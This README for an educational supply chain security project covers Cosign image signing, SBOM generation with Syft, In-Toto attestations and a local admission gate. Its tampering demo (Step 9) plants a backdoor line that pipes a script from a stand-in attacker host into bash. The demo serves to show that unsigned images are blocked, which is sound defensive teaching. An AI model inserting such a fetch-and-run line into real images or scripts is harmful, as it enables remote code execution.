

<!-- markdownlint-disable MD013 MD033 MD051 MD060 -->
# 06 - Container Image Signing and SBOM with Cosign

> An enterprise-grade **Software Supply Chain Security (DevSecOps)** project demonstrating container image signing with **Sigstore Cosign**, Software Bill of Materials (**SBOM**) generation with **Anchore Syft** (SPDX & CycloneDX formats), cryptographic **In-Toto attestations**, and automated pre-deployment admission verification with tamper detection.

---

## 📋 Table of Contents

1. [Architectural Overview & Supply Chain Lifecycle](#-architectural-overview--supply-chain-lifecycle)
   - [End-to-End Container Provenance Workflow](#end-to-end-container-provenance-workflow)
   - [OCI Registry Artifact Anatomy: Signatures & Attestations](#oci-registry-artifact-anatomy-signatures--attestations)
2. [Theoretical Deep-Dive for Beginners](#-theoretical-deep-dive-for-beginners)
   - [The Modern Supply Chain Threat Landscape](#the-modern-supply-chain-threat-landscape)
   - [What is Sigstore Cosign?](#what-is-sigstore-cosign)
   - [Cryptographic Foundations: Asymmetric ECDSA Keys vs. Keyless Signing](#cryptographic-foundations-asymmetric-ecdsa-keys-vs-keyless-signing)
   - [Understanding Software Bill of Materials (SBOM)](#understanding-software-bill-of-materials-sbom)
   - [SPDX vs. CycloneDX Standards Compared](#spdx-vs-cyclonedx-standards-compared)
   - [Cryptographic In-Toto Attestations Explained](#cryptographic-in-toto-attestations-explained)
   - [Pre-Deployment Admission Control & Policy Gating](#pre-deployment-admission-control--policy-gating)
3. [Repository & Directory Structure](#-repository--directory-structure)
4. [Prerequisites & Environment Setup](#-prerequisites--environment-setup)
5. [Quickstart Guide](#-quickstart-guide)
6. [Step-by-Step Hands-On Guide](#-step-by-step-hands-on-guide)
   - [Step 1: Inspect the Hardened Microservice & Dockerfile](#step-1-inspect-the-hardened-microservice--dockerfile)
   - [Step 2: Spin Up the Local OCI Registry](#step-2-spin-up-the-local-oci-registry)
   - [Step 3: Generate Cryptographic ECDSA Keypair](#step-3-generate-cryptographic-ecdsa-keypair)
   - [Step 4: Build and Push the Container Image to the OCI Registry](#step-4-build-and-push-the-container-image-to-the-oci-registry)
   - [Step 5: Generate Multi-Format SBOMs with Syft](#step-5-generate-multi-format-sboms-with-syft)
   - [Step 6: Attach & Cryptographically Attest the SBOM with Cosign](#step-6-attach--cryptographically-attest-the-sbom-with-cosign)
   - [Step 7: Cryptographically Sign the Image Digest](#step-7-cryptographically-sign-the-image-digest)
   - [Step 8: Verify Container Signatures & In-Toto Attestations](#step-8-verify-container-signatures--in-toto-attestations)
   - [Step 9: Simulate Supply Chain Tampering & Test Admission Rejection](#step-9-simulate-supply-chain-tampering--test-admission-rejection)
   - [Step 10: Audit Licenses and Packages with `sbom_analyzer.py`](#step-10-audit-licenses-and-packages-with-sbom_analyzerpy)
   - [Step 11: Run the Complete Automated Test Suite](#step-11-run-the-complete-automated-test-suite)
7. [Enterprise Supply Chain Hardening Matrix](#-enterprise-supply-chain-hardening-matrix)
8. [Troubleshooting & Common Gotchas](#-troubleshooting--common-gotchas)
9. [Resource Teardown & Complete Cleanup](#-resource-teardown--complete-cleanup)

---

## 🏛️ Architectural Overview & Supply Chain Lifecycle

### End-to-End Container Provenance Workflow



### OCI Registry Artifact Anatomy: Signatures & Attestations

When Cosign signs an image or attaches an attestation, it stores them directly inside the OCI registry alongside the target container image using standardized OCI tag conventions:

```text
┌───────────────────────────────────────────────────────────────────────────┐
│                      LOCAL OCI CONTAINER REGISTRY                         │
├───────────────────────────────────────────────────────────────────────────┤
│                                                                           │
│  [ Container Image ]  localhost:5001/secure-app:1.0.0                     │
│                       Digest: sha256:ca60518061aadc6374...                │
│                                                                           │
│  [ Cosign Signature ] localhost:5001/secure-app:sha256-ca60518...sig      │
│                       OCI Artifact containing ECDSA cryptographic signature│
│                                                                           │
│  [ SBOM Attestation ] localhost:5001/secure-app:sha256-ca60518...att      │
│                       In-Toto envelope with signed SPDX 2.3 JSON payload  │
│                                                                           │
└───────────────────────────────────────────────────────────────────────────┘
```

---

## 🧠 Theoretical Deep-Dive for Beginners

### The Modern Supply Chain Threat Landscape

Historically, application security focused exclusively on runtime firewalls and static code vulnerabilities (SAST). However, modern adversaries increasingly target the **software supply chain**:

1. **Malicious Dependency Injections**: Attackers compromise upstream third-party packages (e.g., PyPI, NPM, crates.io) to inject cryptominers or backdoors.
2. **Build-Pipeline Tampering**: Compromising CI/CD runners (like the SolarWinds attack) to inject malicious artifacts into genuine binaries before deployment.
3. **Container Tag Hijacking**: In registries without immutable digest verification, attackers can push a malicious image under an existing tag (e.g., `:latest` or `:1.0.0`).

To defend against these threats, modern DevSecOps utilizes **Cryptographic Signing** (authenticity and integrity) and **Software Bill of Materials** (transparency and traceability).

### What is Sigstore Cosign?

**Sigstore** is an open-source project hosted by the Linux Foundation designed to make software signing accessible, transparent, and standard.

**Cosign** is Sigstore's container signing tool. It enables developers and automated CI/CD pipelines to:

- Generate public/private cryptographic key pairs without relying on cumbersome X.509 enterprise PKI.
- Sign container image digests (`sha256:...`) and push the resulting signature to standard OCI registries.
- Attach cryptographic metadata (SBOMs, vulnerability scan results, commit provenance) as signed **In-Toto attestations**.
- Verify signatures inside Kubernetes admission webhooks (Kyverno, Gatekeeper, Connaisseur) prior to starting any pod.

### Cryptographic Foundations: Asymmetric ECDSA Keys vs. Keyless Signing

Cosign uses **Elliptic Curve Digital Signature Algorithm (ECDSA)** with the **NIST P-256 curve** and **SHA-256** hashing:

| Component | Function | Storage / Protection |
| :--- | :--- | :--- |
| **Private Key (`cosign.key`)** | Generates digital signatures over the SHA-256 digest of the container manifest. | Kept secret; encrypted with a passphrase or stored in a Cloud KMS (AWS KMS, GCP KMS, Vault). |
| **Public Key (`cosign.pub`)** | Verifies that a given signature was created by the corresponding private key. | Distributed freely to CI/CD verification gates, Kubernetes clusters, and security auditors. |

> [!NOTE]
> **Keyless Signing (Fulcio & Rekor)**: In public cloud workflows, Cosign can also operate *keylessly* using OpenID Connect (OIDC) tokens (GitHub Actions, GitLab CI) with **Fulcio** (ephemeral Certificate Authority) and **Rekor** (immutable transparency log). For local offline/sandbox environments, asymmetric keypairs are standard and completely self-contained.

### Understanding Software Bill of Materials (SBOM)

A **Software Bill of Materials (SBOM)** is a machine-readable inventory of all software components, operating system libraries, direct dependencies, transitive packages, and metadata embedded inside a container image.

Just as a list of ingredients on a food package allows consumers to identify allergens, an SBOM allows DevSecOps engineers to:

- Instantly determine if a newly disclosed zero-day vulnerability (e.g., Log4Shell, OpenSSL CVE) exists in their deployed infrastructure without rescanning or rebuilding images.
- Audit open-source licensing compliance (e.g., identifying AGPL or copyleft licenses).

### SPDX vs. CycloneDX Standards Compared

Two major international standards dominate the SBOM ecosystem:

| Feature | SPDX (Software Package Data Exchange) | CycloneDX |
| :--- | :--- | :--- |
| **Governing Body** | Linux Foundation (ISO/IEC 5962:2021) | OWASP (Open Web Application Security Project) |
| **Primary Focus** | Software licensing compliance, IP governance, and package pedigree. | Application security, vulnerability tracking, SCA, and VEX (Vulnerability Exploitability Exchange). |
| **Common Formats** | JSON, YAML, Tag:Value | JSON, XML |
| **Cosign Attestation Type** | `spdxjson` (`https://spdx.dev/Document`) | `cyclonedx` (`https://cyclonedx.org/bom`) |

This mini-project automatically generates both **SPDX 2.3** and **CycloneDX 1.5** formats using Anchore Syft.

### Cryptographic In-Toto Attestations Explained

Simply generating an SBOM file is not enough; an attacker could replace the SBOM file with a sanitized version.

**In-Toto Attestations** solve this problem by wrapping metadata inside a cryptographically signed envelope:

1. **Subject**: Identifies the container image by name and cryptographic digest (`sha256:...`).
2. **Predicate Type**: Specifies the schema of the payload (e.g., `https://spdx.dev/Document`).
3. **Predicate**: The actual raw JSON payload of the SBOM.
4. **Signature**: Cryptographic signature produced by Cosign covering both the subject and predicate.

### Pre-Deployment Admission Control & Policy Gating

In a hardened enterprise environment, Kubernetes clusters and Docker hosts should **never** deploy unsigned container images.

```text
Developer Push ──▶ CI/CD Pipeline (Syft + Cosign) ──▶ OCI Registry ──▶ Admission Controller (Gatekeeper / Kyverno)
                                                                             │
                                                                   [Is Signature Valid?]
                                                                    ├── YES ──▶ Pod Deployed
                                                                    └── NO  ──▶ HTTP 403 Forbidden (Blocked)
```

The script `verify_image_signature.sh` simulates this admission controller logic locally.

---

## 📁 Repository & Directory Structure

```text
11-security-devsecops/06-cosign-image-signing-sbom/
├── .gitignore                      # Excludes private keys, reports, and Python cache
├── .markdownlint.json              # Markdown linter configuration
├── Dockerfile                      # Hardened multi-stage build for sample microservice
├── README.md                       # Comprehensive educational documentation
├── app/
│   └── app.py                      # Production-grade sample Python microservice
├── cleanup.sh                      # Resource teardown and cleanup automation
├── docker-compose.yml              # Local OCI Registry (Port 5001) & service definition
├── requirements.txt                # Python dependencies for the demo app
├── sbom_analyzer.py                # Python compliance engine & license auditor
├── sign_pipeline.sh                # End-to-end signing & SBOM generation pipeline
├── test_cosign_pipeline.sh         # Complete automated test suite with assertions
└── verify_image_signature.sh       # Admission verification & tamper detection gate
```

---

## 🔧 Prerequisites & Environment Setup

This mini-project is designed to run seamlessly in **two modes**:

1. **Containerized Mode (Default / Zero-Install)**: Only requires **Docker** and **Python 3**. The scripts automatically invoke containerized versions of Cosign (`gcr.io/projectsigstore/cosign:latest`) and Syft (`anchore/syft:latest`).
2. **Native CLI Mode**: If you have `cosign` and `syft` installed locally, the scripts detect and utilize them natively.

### Native Installation (Optional)

On macOS via Homebrew:

```bash
brew install cosign syft
```

On Linux (Debian / Ubuntu):

```bash
# Install Cosign
curl -O -L "https://github.com/sigstore/cosign/releases/latest/download/cosign-linux-amd64"
sudo mv cosign-linux-amd64 /usr/local/bin/cosign
sudo chmod +x /usr/local/bin/cosign

# Install Syft
curl -sSfL https://raw.githubusercontent.com/anchore/syft/main/install.sh | sudo sh -s -- -b /usr/local/bin
```

---

## ⚡ Quickstart Guide

Want to run the complete pipeline and verify everything in under 60 seconds?

```bash
# 1. Navigate to the project directory
cd 11-security-devsecops/06-cosign-image-signing-sbom

# 2. Run the end-to-end test suite
./test_cosign_pipeline.sh

# 3. Clean up all resources when finished
./cleanup.sh
```

---

## 🚀 Step-by-Step Hands-On Guide

### Step 1: Inspect the Hardened Microservice & Dockerfile

Explore the sample application in `app/app.py` and review the multi-stage `Dockerfile`:

- **Stage 1 (Builder)**: Installs Python wheels into `/root/.local`.
- **Stage 2 (Runtime)**: Copies only compiled dependencies into a clean `python:3.11-alpine` image.
- **Non-Root Execution**: Runs under UID `10001` (`appuser`).
- **OCI Metadata Labels**: Embeds standard OCI annotations.

```bash
cat Dockerfile
```

### Step 2: Spin Up the Local OCI Registry

Start the local OCI registry container using Docker Compose:

```bash
docker compose up -d local-registry
```

Verify that the registry is listening on port `5001`:

```bash
curl -i http://localhost:5001/v2/
```

*Expected output: HTTP 200 OK.*

### Step 3: Generate Cryptographic ECDSA Keypair

Generate an ECDSA P-256 keypair protected by a passphrase:

```bash
export COSIGN_PASSWORD="SecureDevSecOps2026!"
docker run --rm -e HOME=/tmp -e COSIGN_PASSWORD="$COSIGN_PASSWORD" \
    -v "$(pwd):/workspace" -w /workspace \
    gcr.io/projectsigstore/cosign:latest generate-key-pair
```

This generates two files in the project root:

- `cosign.key`: Encrypted private key.
- `cosign.pub`: Public key used for verification.

### Step 4: Build and Push the Container Image to the OCI Registry

Build the hardened image and push it to the local registry:

```bash
docker build -t localhost:5001/secure-app:1.0.0 .
docker push localhost:5001/secure-app:1.0.0
```

### Step 5: Generate Multi-Format SBOMs with Syft

Use Anchore Syft to inspect the image and generate SBOMs in SPDX JSON, CycloneDX JSON, and tabular formats:

```bash
mkdir -p reports

docker run --rm \
    -v /var/run/docker.sock:/var/run/docker.sock \
    -v "$(pwd):/workspace" \
    -w /workspace \
    anchore/syft:latest scan "docker:localhost:5001/secure-app:1.0.0" \
    -o "spdx-json=/workspace/reports/sbom.spdx.json" \
    -o "cyclonedx-json=/workspace/reports/sbom.cyclonedx.json" \
    -o "syft-table=/workspace/reports/sbom.txt"
```

View the generated summary table:

```bash
head -n 25 reports/sbom.txt
```

### Step 6: Attach & Cryptographically Attest the SBOM with Cosign

Attach the SPDX 2.3 SBOM to the image in the OCI registry as a cryptographically signed In-Toto attestation:

```bash
docker run --rm -e HOME=/tmp -e COSIGN_PASSWORD="$COSIGN_PASSWORD" \
    --network 06-cosign-image-signing-sbom_default \
    -v "$(pwd):/workspace" -w /workspace \
    gcr.io/projectsigstore/cosign:latest attest \
    --yes \
    --key /workspace/cosign.key \
    --type spdxjson \
    --predicate /workspace/reports/sbom.spdx.json \
    --allow-insecure-registry \
    --allow-http-registry \
    local-oci-registry:5000/secure-app:1.0.0
```

### Step 7: Cryptographically Sign the Image Digest

Sign the container image digest with Cosign:

```bash
docker run --rm -e HOME=/tmp -e COSIGN_PASSWORD="$COSIGN_PASSWORD" \
    --network 06-cosign-image-signing-sbom_default \
    -v "$(pwd):/workspace" -w /workspace \
    gcr.io/projectsigstore/cosign:latest sign \
    --yes \
    --key /workspace/cosign.key \
    --allow-insecure-registry \
    --allow-http-registry \
    local-oci-registry:5000/secure-app:1.0.0
```

> [!TIP]
> Alternatively, steps 2 through 7 are completely automated by running `./sign_pipeline.sh`!

```bash
./sign_pipeline.sh --image localhost:5001/secure-app:1.0.0
```

### Step 8: Verify Container Signatures & In-Toto Attestations

Execute `verify_image_signature.sh` to simulate pre-deployment admission validation:

```bash
./verify_image_signature.sh --verify-attestation localhost:5001/secure-app:1.0.0
```

*Expected output:*

```text
======================================================================
  🛡️  COSIGN CONTAINER SIGNATURE & ATTESTATION ADMISSION GATE
======================================================================
 Target Image     : localhost:5001/secure-app:1.0.0
 Public Key       : .../cosign.pub
 Attestation Check: true
======================================================================

▶ [1/2] Verifying Cryptographic Container Signature...
  [VALID] Cryptographic signature successfully verified against public key!
  [CLAIM] Verified Reference: local-oci-registry:5000/secure-app:1.0.0
  [CLAIM] Manifest Digest   : sha256:ca60518061aadc637428a48526bf3eb313efdfdb...

▶ [2/2] Verifying Cryptographic In-Toto SBOM Attestation...
  [VALID] Cryptographic SBOM In-Toto attestation successfully verified!
  [PAYLOAD] Predicate Type: https://spdx.dev/Document (SPDX 2.3 JSON)

======================================================================
  🎉 ADMISSION GATE DECISION: APPROVED FOR DEPLOYMENT (ALLOW)
======================================================================
```

### Step 9: Simulate Supply Chain Tampering & Test Admission Rejection

Now let's simulate a real-world supply chain attack. An attacker injects a malicious script (`/app/backdoor.sh`) into our container image and pushes it to the registry without a valid signature:

```bash
# 1. Build tampered container
docker build -t localhost:5001/secure-app:tampered -f - . << 'EOF'
FROM localhost:5001/secure-app:1.0.0
USER root
RUN echo "curl https://evil-attacker.com/leak | bash" > /app/backdoor.sh
USER 10001:10001
EOF

# 2. Push tampered image to registry
docker push localhost:5001/secure-app:tampered

# 3. Attempt admission verification
./verify_image_signature.sh localhost:5001/secure-app:tampered
```

*Expected output:*

```text
▶ [1/2] Verifying Cryptographic Container Signature...
  [REJECTED] Signature verification FAILED for image 'localhost:5001/secure-app:tampered'!
  [DETAIL] Error: no signatures found

======================================================================
  ❌ ADMISSION GATE DECISION: DEPLOYMENT BLOCKED (DENY)
======================================================================
 Container 'localhost:5001/secure-app:tampered' is unsigned, tampered, or missing valid attestations.
```

The admission gate immediately blocks deployment with exit code `1`.

### Step 10: Audit Licenses and Packages with `sbom_analyzer.py`

Run the custom Python compliance engine to analyze the generated SBOM:

```bash
python3 sbom_analyzer.py -f reports/sbom.spdx.json -o reports/sbom_analysis.md
```

This displays a terminal dashboard and generates a Markdown audit report `reports/sbom_analysis.md` summarizing:

- Total components cataloged.
- Classification (Alpine APK vs. Python PyPI).
- License compliance distribution (Permissive MIT/Apache vs. Restrictive GPL/Copyleft).

### Step 11: Run the Complete Automated Test Suite

Execute the comprehensive test runner to validate all 13 end-to-end assertions:

```bash
./test_cosign_pipeline.sh
```

---

## 🛡️ Enterprise Supply Chain Hardening Matrix

| Security Layer | Traditional Approach | Cosign + Syft DevSecOps Standard |
| :--- | :--- | :--- |
| **Image Authenticity** | Trust based on registry hostname | Cryptographic ECDSA digital signatures over SHA-256 image manifests |
| **Provenance & Traceability** | Git commit tags (mutable) | Signed In-Toto SLSA attestations binding source Git commit to image digest |
| **Vulnerability Visibility** | Periodic manual registry scanning | Machine-readable SBOMs (SPDX/CycloneDX) attached directly to the image |
| **License Governance** | Manual legal audits | Automated license auditing directly from SBOM JSON components |
| **Cluster Admission** | Unrestricted pod deployments | Admission Webhooks (Kyverno/Gatekeeper) blocking unsigned or tampered digests |

---

## ❓ Troubleshooting & Common Gotchas

### 1. `Error: no signatures found`

- **Cause**: Image was pushed with a new digest after signing, or verification is targeting an image tag that was not signed.
- **Remedy**: Always sign by digest or rerun `./sign_pipeline.sh` after rebuilding.

### 2. `error getting keypair: decrypt: decryption failed`

- **Cause**: The passphrase supplied in `COSIGN_PASSWORD` does not match the passphrase used when the private key was generated.
- **Remedy**: Ensure `export COSIGN_PASSWORD="YourPassword"` matches the key, or run `./cleanup.sh` to generate a fresh keypair.

### 3. `connection refused` or `http: server gave HTTP response to HTTPS client`

- **Cause**: Cosign defaults to HTTPS for container registries.
- **Remedy**: When using a local non-SSL registry on `localhost:5001`, always include the `--allow-insecure-registry` and `--allow-http-registry` flags (handled automatically by the scripts in this repo).

---

## 🧹 Resource Teardown & Complete Cleanup

To clean up all containers, networks, volumes, keys, and temporary files:

```bash
# Standard cleanup: removes containers, networks, volumes, keys, and reports
./cleanup.sh
```

To also delete all downloaded and built Docker images (`localhost:5001/secure-app:1.0.0`, `registry:2`, `cosign`, `syft`):

```bash
# Deep cleanup: purges Docker images as well
./cleanup.sh --all
```

*Terminal verification confirmation:*

```text
======================================================================
  🧹 Cleaning Up Cosign & SBOM Sandbox Resources
======================================================================
▶ [1/3] Tearing down containers, network, and registry volume...
  [OK] Compose containers and networks stopped and removed.
  [OK] Named volume 'local_oci_registry_data' deleted.

▶ [2/3] Purging container images (sample apps, registry, cosign, syft)...
  [OK] Docker images purged successfully.

▶ [3/3] Removing cryptographic keys, generated reports, and Python cache...
  [OK] Cryptographic keys (cosign.key, cosign.pub) removed.
  [OK] Generated SBOM and attestation reports cleaned.

✨ Environment is completely clean! Ready for subsequent projects.
```
